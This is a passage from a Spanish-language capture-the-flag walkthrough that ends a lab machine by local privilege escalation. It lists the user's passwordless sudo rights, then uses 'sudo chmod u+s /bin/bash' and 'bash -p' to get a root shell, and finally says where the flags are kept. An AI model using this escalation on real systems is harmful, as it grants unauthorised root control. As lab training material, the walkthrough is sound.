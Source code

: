 Al ejecutar el comando `sudo -l` veo que este usuario puede ejecutar como el usuario **root** distintos binarios vulnerables.

```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 
```

Con [GTFOBins](https://gtfobins.github.io/) puedes ver distintas formas de aprovecharte de los binarios y sus permisos.

El que utilizaré en este caso es `chmod`. Asignaré el permiso *SUID* al binario de la `bash` y luego lo ejecutaré con la opción `-p`.

```
bash-3.2$ sudo chmod u+s /bin/bash
bash-3.2$ bash -p
bash-3.2# whoami
root
bash-3.2# id
uid=100(asterisk) gid=101(asterisk) euid=0(root) groups=101(asterisk)
bash-3.2# 
```

Con esto concluye la resolución de la máquina.

<a name="flags"></a>
# Flags

La flag del usuario está en el directorio personal del usuario **fanis**.

La flag de root esta en su directorio personal.
